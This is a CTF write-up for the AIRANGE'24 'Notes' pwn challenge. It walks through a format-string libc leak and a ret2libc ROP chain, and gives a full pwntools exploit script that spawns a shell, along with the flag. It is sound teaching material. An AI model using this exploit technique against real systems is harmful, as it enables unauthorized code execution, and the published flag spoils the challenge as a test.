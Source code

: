 ```yaml
---
title: AIRANGE'24 - Pwn - Notes
date: '2024-05-10'
tags: ['ctf', 'pwn', 'airange', 'writeup', 'fmt']
draft: false
summary: Given a libc leak, perform a ret2libc attack.
---
```


## Challenge Description

![Screenshot](/static/writeups/airange24/pwn/notes1.png)

## Solution

Files provided to us:

```
Dockerfile
ld-2.35.so
libc.so.6
notes
notes.cpp
```

Checking binary’s mitigations:

![Screenshot](/static/writeups/airange24/pwn/notes2.png)

First thing first, lets see what is the vulnerable part. You can see in the following screenshot that we have FSB:

![Screenshot](/static/writeups/airange24/pwn/notes3.png)

As **PIE** and **NX** is enabled. We have to perform `ret2libc`. Now, open the binary in gdb and let’s see if we could leak an address from libc address range:

```
%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
```

![Screenshot](/static/writeups/airange24/pwn/notes4.png)

Press `ctrl+C` and run `vmmap` to see range of libc; which in our case is `0x7ffff7b40000` - `0x7ffff7d5a000`:

![Screenshot](/static/writeups/airange24/pwn/notes5.png)

And if you see carefully, a leaked address (`0x7ffff7b69d90`) from this range is present on index `27`:

![Screenshot](/static/writeups/airange24/pwn/notes6.png)


As in this challenge, the **PIE** (Position Independent Executable) and **NX** (No eXecute) are enabled, meaning that each time a binary is executed, it generates a seemingly random address for every instruction in binary code. However, upon closer inspection, these addresses are not truly random.


This lack of randomness stems from a concept known as an offset, which represents the distance between any two functions or the distance from the base of the binary to a specific function. This offset remains consistent. For instance, consider two individuals racing, and the difference between them is consistently 2 meters. So, even though they are constantly moving, if the distance between them remains the same and we know the address of one person, we can calculate the address of the other person.

So, if we have a leaked libc function address and somehow we can calculate its offset from the libc base, we can determine the libc base address and call any function that we desire.

> Base address + Offset = Function address

With knowledge of one address, it becomes feasible to calculate the offset to another function. Consequently, each time the binary is executed, this offset is randomly generated and added to the base address.

In our case, the leaked address was `0x7ffff7b69d90` and base address is `0x7ffff7b40000`. Let’s calculate the offset:

```bash
pwndbg> p/x 0x7ffff7b69d90 - 0x7ffff7b40000
```

![Screenshot](/static/writeups/airange24/pwn/notes7.png)

As now we know offset, we can calculate libc base address at runtime essentially bypassing **PIE** protection. 😉

```bash:how-it-will-be-calculated
libc.address = <%27$p> - <0x29d90>
```

Finding offset:

![Screenshot](/static/writeups/airange24/pwn/notes8.png)

![Screenshot](/static/writeups/airange24/pwn/notes9.png)

Our offset is 268+8 = `276`. Now let's find `ret` and `pop rdi`. 

But why we need them?

**POP_RDI:** gadget is used to pop the next value from the stack into the rdi register. In this context, rdi is typically used to pass the first argument to a function. Since the script (that we want to create) aims to call system("/bin/sh"), it needs to pass the address of the string "/bin/sh" as the first argument to `system()`. Therefore, POP_RDI will be used to load the address of "/bin/sh" into rdi.

**RET:** gadget is used to return control flow to the address stored on the stack. In the ROP chain, after loading the address of "/bin/sh" into rdi using POP_RDI, the next step is to return to some address. In our case it will be used to maintain alignment or adjust the stack before calling `system()`. After RET, the `system()` function from libc will be called, which expects control to be transferred to its entry point with the appropriate arguments in registers.

In short, **POP_RDI** is used to load the address of "/bin/sh" into rdi, and **RET** is used for alignment or adjusting the stack before calling `system()` with the appropriate arguments.

So, to find **POP_RDI** and **RET**, I will use rop gadget (`rop.find_gadget()`).

Final payload that I created:

```python:payload.py
#!/usr/bin/env python3
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

encode = lambda e: e if type(e) == bytes else str(e).encode()       # Lambda function to encode strings to bytes
hexleak = lambda l: int(l[:-1] if l[-1] == '\n' else l, 16)         # Lambda function to convert hex string to integer

exe = "./notes"
elf = context.binary = ELF(exe)
libc = elf.libc

# Set up the connection (remote or local)
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
# If GDB flag is enabled, attach to the process for debugging
if args.GDB: gdb.attach(io, "b *main")

rop = ROP(libc)

io.sendlineafter(b"$ ", b"1")
io.sendlineafter(b"note: ", b"|%27$p|")
io.sendlineafter(b"$ ", b"2")
io.sendlineafter(b": ", b"0")

# Receiving leaked address and parsing it
leak = int(io.recvline().split(b"|")[1], 16)
print("leak @ %#x" % leak)

# Calculating the libc base address using the leaked address
libc.address = leak - 0x29d90
print("base @ %#x" % libc.address)

# Finding the gadgets needed for ROP chain
POP_RDI = libc.address + rop.find_gadget(['pop rdi', 'ret'])[0]
RET = libc.address + rop.find_gadget(['ret'])[0]

payload = flat(
    cyclic(276),                        # Filling buffer with cyclic pattern (overflow to RIP)
    POP_RDI,                            # Setting up RDI register for system call
    next(libc.search(b"/bin/sh\x00")),  # Address of "/bin/sh" string in libc
    RET,                                # Return address
    libc.sym.system                     # Calling system() function
)

io.sendline(b"0")
io.recvuntil(b'$ ')
io.sendline(b"1")

io.sendline(payload)
io.interactive()
```

Running it against remote:

![Screenshot](/static/writeups/airange24/pwn/notes10.png)

### Flag:

```python
print("hi")
```

```
AUCSS{1_th0ught_cpp_w4s_s3cur3}
```
